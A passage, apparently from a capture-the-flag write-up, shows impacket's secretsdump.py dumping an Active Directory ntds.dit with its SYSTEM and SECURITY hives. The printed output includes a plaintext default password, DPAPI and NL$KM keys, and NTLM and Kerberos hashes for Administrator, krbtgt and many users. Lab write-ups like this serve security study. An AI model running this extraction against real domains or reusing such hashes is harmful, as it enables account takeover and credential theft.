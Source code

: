 Unzipping this reveals a SECURITY and SYSTEM registry hive, and also the ntds.dit file which contains all data about active directory, including password hashes to all user objects in the AD.  We can dump them using `impacket-secretsdump`

```sh
utopia@utopia: smb » secretsdump.py -system SYSTEM -security SECURITY LOCAL -ntds ntds.dit               130 [05:50:30]

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x936ce5da88593206567f650411e1d16b
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:34005b00250066006f0027007a004700600026004200680052003300630050005b002900550032004e00560053005c004c00450059004f002f0026005e0029003c00390078006a0036002500230039005c005c003f0075004a0034005900500062006000440052004b00220020004900450053003200660058004b00220066002c005800280051006c002a0066006700300052006600520071003d0021002c004200650041005600460074005e0045005600520052002d004c0029005600610054006a0076002f005100470039003d006f003b004700400067003e005600610062002d00550059006300200059006400
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb
[*] DefaultPassword 
(Unknown User):Password123!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x3e0d78cb8f3ed66196584c44b5701501789fc102
dpapi_userkey:0xdcde3fc585c430a72221a48691fb202218248d46
[*] NL$KM 
 0000   73 4F 34 1D 09 C8 F9 32  23 B9 25 0B DF E2 DC 58   sO4....2#.%....X
 0010   44 41 F2 E0 C0 93 CF AD  2F 2E EB 13 81 77 4B 42   DA....../....wKB
 0020   C2 E0 6D DE 90 79 44 42  F4 C2 AD 4D 7E 3C 6F B2   ..m..yDB...M~<o.
 0030   39 CE 99 95 66 8E AF 7F  1C E0 F6 41 3A 25 DA A8   9...f......A:%..
NL$KM:734f341d09c8f93223b9250bdfe2dc584441f2e0c093cfad2f2eeb1381774b42c2e06dde90794442f4c2ad4d7e3c6fb239ce9995668eaf7f1ce0f6413a25daa8
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 1733ad403c773dde94dddffa2292ffe9
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
APT$:1000:aad3b435b51404eeaad3b435b51404ee:b300272f1cdab4469660d55fe59415cb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:72791983d95870c0d6dd999e4389b211:::
jeb.sloan:3200:aad3b435b51404eeaad3b435b51404ee:9ea25adafeec63e38cef4259d3b15c30:::
ranson.mejia:3201:aad3b435b51404eeaad3b435b51404ee:3ae49ec5e6fed82ceea0dc2be77750ab:::
unice.daugherty:3202:aad3b435b51404eeaad3b435b51404ee:531c98e26cfa3caee2174af495031187:::
kazuo.deleon:3203:aad3b435b51404eeaad3b435b51404ee:fde29e6cb61b4f7fda1ad5cd2759329d:::
dacy.frederick:3204:aad3b435b51404eeaad3b435b51404ee:51d368765462e9c5aebc456946d8dc86:::
emeline.boone:3205:aad3b435b51404eeaad3b435b51404ee:273c48fb014f8e5bf9e2918e3bf7bfbd:::
baris.martin:3206:aad3b435b51404eeaad3b435b51404ee:98590500f99a1bee7559e97ad342d995:::
mea.cash:3207:aad3b435b51404eeaad3b435b51404ee:10cf01167854082e180cf549f63c0285:::
elie.petersen:3208:aad3b435b51404eeaad3b435b51404ee:813f9d0988b9242eec1e45907344b591:::
gaylene.stephenson:3209:aad3b435b51404eeaad3b435b51404ee:6149000a4f3f7c57642cbee1ea70c3e1:::
..................................
..................................
..................................
snip
..................................
..................................
..................................
cuong.pierce:aes128-cts-hmac-sha1-96:21eb4412433f263f245de81e57fbeac8
cuong.pierce:des-cbc-md5:83e9a470f7c84a46
prue.olson:aes256-cts-hmac-sha1-96:cd0d76863148d8ad87c40bd1903a6af2295db46ce3e9494d1f8b95de99b91a64
prue.olson:aes128-cts-hmac-sha1-96:d817cf2341be47674e6d0dccab1237b0
prue.olson:des-cbc-md5:2c5dba54314c20ba
```